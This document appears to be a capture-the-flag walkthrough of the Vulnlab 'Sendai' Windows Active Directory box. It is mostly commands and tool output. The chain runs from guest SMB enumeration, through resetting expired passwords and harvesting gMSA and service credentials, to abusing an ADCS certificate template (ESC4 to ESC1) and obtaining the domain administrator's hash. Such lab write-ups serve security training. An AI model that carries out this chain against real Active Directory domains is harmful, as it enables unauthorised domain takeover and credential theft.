

Sendai is a medium difficulty Windows box prepared by xct. This machine includes topics such as Active Directory Certificate Services (ADCS), expired passwords, and SMB share enumeration.

In this post, I share a detailed walkthrough of the Sendai box with you. Enjoy the read!


 We start with a classic Nmap scan.

```zsh
➜  sandai nmap -p- --min-rate 10000 10.10.67.25 -oN port.txt
Starting Nmap 7.95 ( https://nmap.org ) at 2025-05-18 00:02 +04
Nmap scan report for sandai.vl (10.10.67.25)
Host is up (0.15s latency).
Not shown: 65525 filtered tcp ports (no-response)
PORT      STATE SERVICE
53/tcp    open  domain
80/tcp    open  http
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
443/tcp   open  https
445/tcp   open  microsoft-ds
3389/tcp  open  ms-wbt-server
49667/tcp open  unknown
49669/tcp open  unknown
49670/tcp open  unknown
```

Since the guest account is enabled, we are checking the shares using this account.

```zsh
➜  sandai netexec smb sandai.vl -u 'guest' -p ''  --shares 
SMB         10.10.67.25     445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:sendai.vl) (signing:True) (SMBv1:False)
SMB         10.10.67.25     445    DC               [+] sendai.vl\guest: 
SMB         10.10.67.25     445    DC               [*] Enumerated shares
SMB         10.10.67.25     445    DC               Share           Permissions     Remark
SMB         10.10.67.25     445    DC               -----           -----------     ------
SMB         10.10.67.25     445    DC               ADMIN$                          Remote Admin
SMB         10.10.67.25     445    DC               C$                              Default share
SMB         10.10.67.25     445    DC               config                          
SMB         10.10.67.25     445    DC               IPC$            READ            Remote IPC
SMB         10.10.67.25     445    DC               NETLOGON                        Logon server share 
SMB         10.10.67.25     445    DC               sendai          READ            company share
SMB         10.10.67.25     445    DC               SYSVOL                          Logon server share 
SMB         10.10.67.25     445    DC               Users           READ            
```
We connect to the shares using the `impacket-smbclient` tool with the guest account.

```zsh
➜  sandai impacket-smbclient sandai.vl/guest@sandai.vl -no-pass        
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

Type help for list of commands
# shares
ADMIN$
C$
config
IPC$
NETLOGON
sendai
SYSVOL
Users
# use sendai
# ls
drw-rw-rw-          0  Tue Jul 18 21:31:04 2023 .
drw-rw-rw-          0  Wed Jul 19 18:11:25 2023 ..
drw-rw-rw-          0  Tue Jul 11 17:26:34 2023 hr
-rw-rw-rw-       1372  Tue Jul 18 21:34:15 2023 incident.txt
drw-rw-rw-          0  Tue Jul 18 17:16:46 2023 it
drw-rw-rw-          0  Tue Jul 11 17:26:34 2023 legal
drw-rw-rw-          0  Tue Jul 18 17:17:35 2023 security
drw-rw-rw-          0  Tue Jul 11 17:26:34 2023 transfer
```

The incident.txt file states that the organization recently conducted a penetration test and identified weak passwords.
It also mentions that users are required to change their passwords at their next logon.
This is good news for us.

```zsh
➜  sandai cat incident.txt 
Dear valued employees,

We hope this message finds you well. We would like to inform you about an important security update regarding user account passwords. Recently, we conducted a thorough penetration test, which revealed that a significant number of user accounts have weak and insecure passwords.

To address this concern and maintain the highest level of security within our organization, the IT department has taken immediate action. All user accounts with insecure passwords have been expired as a precautionary measure. This means that affected users will be required to change their passwords upon their next login.

We kindly request all impacted users to follow the password reset process promptly to ensure the security and integrity of our systems. Please bear in mind that strong passwords play a crucial role in safeguarding sensitive information and protecting our network from potential threats.

If you need assistance or have any questions regarding the password reset procedure, please don't hesitate to reach out to the IT support team. They will be more than happy to guide you through the process and provide any necessary support.

Thank you for your cooperation and commitment to maintaining a secure environment for all of us. Your vigilance and adherence to robust security practices contribute significantly to our collective safety 
```

Here, we identify valid usernames.

```zsh
# use sendai
ls
# ls
drw-rw-rw-          0  Tue Jul 18 21:31:04 2023 .
drw-rw-rw-          0  Wed Jul 19 18:11:25 2023 ..
drw-rw-rw-          0  Tue Jul 11 17:26:34 2023 hr
-rw-rw-rw-       1372  Tue Jul 18 21:34:15 2023 incident.txt
drw-rw-rw-          0  Tue Jul 18 17:16:46 2023 it
drw-rw-rw-          0  Tue Jul 11 17:26:34 2023 legal
drw-rw-rw-          0  Tue Jul 18 17:17:35 2023 security
drw-rw-rw-          0  Tue Jul 11 17:26:34 2023 transfer
# cd transfer
ls
# ls
drw-rw-rw-          0  Tue Jul 11 17:26:34 2023 .
drw-rw-rw-          0  Tue Jul 18 21:31:04 2023 ..
drw-rw-rw-          0  Tue Jul 11 17:26:34 2023 anthony.smith
drw-rw-rw-          0  Tue Jul 11 17:26:34 2023 clifford.davey
drw-rw-rw-          0  Tue Jul 11 17:26:34 2023 elliot.yates
drw-rw-rw-          0  Tue Jul 11 17:26:34 2023 lisa.williams
drw-rw-rw-          0  Tue Jul 11 17:26:34 2023 susan.harper
drw-rw-rw-          0  Tue Jul 11 17:26:34 2023 temp
drw-rw-rw-          0  Tue Jul 11 17:26:34 2023 thomas.powell
```

And notice that two of the users are required to change their passwords (must change).

```zsh
➜  sandai netexec smb sandai.vl -u users.txt -p '' --continue-on-success
SMB         10.10.67.25     445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:sendai.vl) (signing:True) (SMBv1:False)
SMB         10.10.67.25     445    DC               [-] sendai.vl\anthony.smith: STATUS_LOGON_FAILURE 
SMB         10.10.67.25     445    DC               [-] sendai.vl\clifford.davey: STATUS_LOGON_FAILURE 
SMB         10.10.67.25     445    DC               [-] sendai.vl\elliot.yates: STATUS_PASSWORD_MUST_CHANGE 
SMB         10.10.67.25     445    DC               [-] sendai.vl\lisa.williams: STATUS_LOGON_FAILURE 
SMB         10.10.67.25     445    DC               [-] sendai.vl\susan.harper: STATUS_LOGON_FAILURE 
SMB         10.10.67.25     445    DC               [-] sendai.vl\thomas.powell: STATUS_PASSWORD_MUST_CHANGE 
SMB         10.10.67.25     445    DC               [+] sendai.vl\: 
```

We reset the password of the user thomas.powell using the `smbpasswd` tool.


```zsh
➜  examples git:(dacledit) ✗ python3 smbpasswd.py sendai.vl/thomas.powell@dc.sendai.vl -newpass 'Vulnlab123'
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

Current SMB password: 
[!] Password is expired, trying to bind with a null session.
[*] Password was changed successfully.
```

Then, we verify whether the operation was successful.

```zsh
➜  sendai netexec smb sendai.vl -u thomas.powell -p Vulnlab123
SMB         10.10.67.25     445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:sendai.vl) (signing:True) (SMBv1:False)
SMB         10.10.67.25     445    DC               [+] sendai.vl\thomas.powell:Vulnlab123 
```

Then, we check the shares again.

```zsh
➜  sendai netexec smb sendai.vl -u thomas.powell -p Vulnlab123 --shares
SMB         10.10.67.25     445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:sendai.vl) (signing:True) (SMBv1:False)
SMB         10.10.67.25     445    DC               [+] sendai.vl\thomas.powell:Vulnlab123 
SMB         10.10.67.25     445    DC               [*] Enumerated shares
SMB         10.10.67.25     445    DC               Share           Permissions     Remark
SMB         10.10.67.25     445    DC               -----           -----------     ------
SMB         10.10.67.25     445    DC               ADMIN$                          Remote Admin
SMB         10.10.67.25     445    DC               C$                              Default share
SMB         10.10.67.25     445    DC               config          READ,WRITE      
SMB         10.10.67.25     445    DC               IPC$            READ            Remote IPC
SMB         10.10.67.25     445    DC               NETLOGON        READ            Logon server share 
SMB         10.10.67.25     445    DC               sendai          READ,WRITE      company share
SMB         10.10.67.25     445    DC               SYSVOL          READ            Logon server share 
SMB         10.10.67.25     445    DC               Users           READ            
```


We connect to the `config` share and find a set of credentials.

```zsh
➜  sendai impacket-smbclient sendai.vl/thomas.powell@sendai.vl           
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

Password:
Type help for list of commands
# use config
# ls
drw-rw-rw-          0  Sun May 18 00:37:04 2025 .
drw-rw-rw-          0  Wed Jul 19 18:11:25 2023 ..
-rw-rw-rw-         78  Tue Jul 11 16:57:10 2023 .sqlconfig
# get .sqlconfig
```

```zsh
➜  sendai cat .sqlconfig 
Server=dc.sendai.vl,1433;Database=prod;User Id=sqlsvc;Password=<REDACTED>;
```

Let's check whether the password for the sqlsvc user is valid.

```zsh
➜  sendai netexec smb sendai.vl  -u sqlsvc -p <REDACTED>                
SMB         10.10.67.25     445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:sendai.vl) (signing:True) (SMBv1:False)
SMB         10.10.67.25     445    DC               [+] sendai.vl\sqlsvc:<REDACTED> 
```

Let's use BloodHound to analyze what we can do with the current user account.

```zsh
➜  sendai bloodhound-python -u sqlsvc -p <REDACTED> -d sendai.vl -ns 10.10.67.25
INFO: BloodHound.py for BloodHound LEGACY (BloodHound 4.2 and 4.3)
INFO: Found AD domain: sendai.vl
INFO: Getting TGT for user
INFO: Connecting to LDAP server: dc.sendai.vl
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 1 computers
INFO: Connecting to LDAP server: dc.sendai.vl
INFO: Found 27 users
INFO: Found 57 groups
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: dc.sendai.vl
INFO: Done in 00M 09S
```

Using BloodHound, we discovered that the user thomas.powell is a member of the Support group, which has GenericAll privileges over the ADMSVC group. Additionally, the same group has ReadGMSAPassword rights over the mgtsvc account.

<figure><figcaption></figcaption></figure>


The next step is to add ourselves to the ADMSVC group and read the password.


```zsh
➜  bloodhound bloodyAD  --host "10.10.109.169" -d 'sendai.vl' -u 'thomas.powell' -p 'Vulnlab123' add groupMember ADMSVC thomas.powell
[+] thomas.powell added to ADMSVC
```

We can do this using netexec.

```zsh
➜  bloodhound netexec ldap sendai.vl -u thomas.powell -p Vulnlab123 --gmsa
SMB         10.10.109.169   445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:sendai.vl) (signing:True) (SMBv1:False)
LDAPS       10.10.109.169   636    DC               [+] sendai.vl\thomas.powell:Vulnlab123 
LDAPS       10.10.109.169   636    DC               [*] Getting GMSA Passwords
LDAPS       10.10.109.169   636    DC               Account: mgtsvc$              NTLM: <REDACTED>
```

After that, we can connect using evil-winrm.
After that, the enumeration phase begins.
After a few attempts, we find a password inside one of the processes.

```zsh
*Evil-WinRM* PS C:\users\mgtsvc$\desktop> upload /home/user/VULNLAB/sendai/bloodhound/PrivescCheck.ps1
                                        

Name        : Support
DisplayName :
ImagePath   : C:\WINDOWS\helpdesk.exe -u clifford.davey -p <REDACTED> -k netsvcs
User        : LocalSystem
StartMode   : Automatic

```
Now, let’s check the vulnerable certificates with this user.

```zsh
➜  bloodhound certipy-ad find -u 'clifford.davey' -p <REDACTED> -dc-ip 10.10.109.169 -dns-tcp -ns 10.10.109.169 
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 34 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 12 enabled certificate templates
[*] Trying to get CA configuration for 'sendai-DC-CA' via CSRA
[!] Got error while trying to get CA configuration for 'sendai-DC-CA' via CSRA: CASessionError: code: 0x80070005 - E_ACCESSDENIED - General access denied error.
[*] Trying to get CA configuration for 'sendai-DC-CA' via RRP
[!] Failed to connect to remote registry. Service should be starting now. Trying again...
[*] Got CA configuration for 'sendai-DC-CA'
[*] Saved BloodHound data to '20250519235608_Certipy.zip'. Drag and drop the file into the BloodHound GUI from @ly4k
[*] Saved text output to '20250519235608_Certipy.txt'
[*] Saved JSON output to '20250519235608_Certipy.json'
```

```zsh
➜  bloodhound cat 20250519235608_Certipy.txt | grep danger
      ESC4                              : 'SENDAI.VL\\ca-operators' has dangerous permissions
```

As you can see, there is an ESC4 vulnerability.
By modifying this, we can easily turn it into an ESC1 vulnerability, making the rest of the process much easier.

For more detailed technical information, I recommend checking [this](https://github.com/ly4k/Certipy/wiki/06-%E2%80%90-Privilege-Escalation#esc4-template-hijacking) link.


```zsh
➜  sendai certipy template -u 'clifford.davey' -p '<REDACTED>' -dc-ip '10.10.125.252' -template 'SendaiComputer' -write-default-configuration

Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Saving current configuration to 'SendaiComputer.json'
[*] Wrote current configuration for 'SendaiComputer' to 'SendaiComputer.json'
[*] Updating certificate template 'SendaiComputer'
[*] Replacing:
[*]     nTSecurityDescriptor: b'\x01\x00\x04\x9c0\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x14\x00\x00\x00\x02\x00\x1c\x00\x01\x00\x00\x00\x00\x00\x14\x00\xff\x01\x0f\x00\x01\x01\x00\x00\x00\x00\x00\x05\x0b\x00\x00\x00\x01\x01\x00\x00\x00\x00\x00\x05\x0b\x00\x00\x00'
[*]     flags: 66104
[*]     pKIDefaultKeySpec: 2
[*]     pKIKeyUsage: b'\x86\x00'
[*]     pKIMaxIssuingDepth: -1
[*]     pKICriticalExtensions: ['2.5.29.19', '2.5.29.15']
[*]     pKIExpirationPeriod: b'\x00@9\x87.\xe1\xfe\xff'
[*]     pKIExtendedKeyUsage: ['1.3.6.1.5.5.7.3.2']
[*]     pKIDefaultCSPs: ['2,Microsoft Base Cryptographic Provider v1.0', '1,Microsoft Enhanced Cryptographic Provider v1.0']
[*]     msPKI-Enrollment-Flag: 0
[*]     msPKI-Private-Key-Flag: 16
[*]     msPKI-Certificate-Name-Flag: 1
[*]     msPKI-Minimal-Key-Size: 2048
[*]     msPKI-Certificate-Application-Policy: ['1.3.6.1.5.5.7.3.2']
Are you sure you want to apply these changes to 'SendaiComputer'? (y/N): y
[*] Successfully updated 'SendaiComputer'
```

Upon rechecking, we observe that it is an ESC1 vulnerability.

```zsh
➜  sendai cat 20250525003519_Certipy.txt | grep ESC
      ESC1                              : 'SENDAI.VL\\Authenticated Users' can enroll, enrollee supplies subject and template allows client authentication
      ESC4                              : 'SENDAI.VL\\Authenticated Users' has dangerous permissions
```

Request a certificate using the modified template.

```zsh
➜  sendai certipy req -u 'clifford.davey' -p '<REDACTED>' -dc-ip '10.10.125.252' -target 'dc.sendai.vl' -ca 'sendai-DC-CA' -template 'SendaiComputer' -upn 'administrator@sendai.vl'       
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Request ID is 4
[*] Successfully requested certificate
[*] Got certificate with UPN 'administrator@sendai.vl'
[*] Certificate has no object SID
[*] Try using -sid to set the object SID or see the wiki for more details
[*] Saving certificate and private key to 'administrator.pfx'
[*] Wrote certificate and private key to 'administrator.pfx'
```
Authenticate using the obtained certificate.

```zsh
➜  sendai certipy auth -pfx administrator.pfx -dc-ip 10.10.125.252
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     SAN UPN: 'administrator@sendai.vl'
[*] Using principal: 'administrator@sendai.vl'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'administrator.ccache'
File 'administrator.ccache' already exists. Overwrite? (y/n - saying no will save with a unique filename): y
[*] Wrote credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@sendai.vl': aad3b435b51404eeaad3b435b51404ee:<REDACTED>
```
From here, we extracted the NTLM hash, which allows us to use evil-winrm or connect with psexec using the .cache file. After that, it’s up to you. 
That’s it!


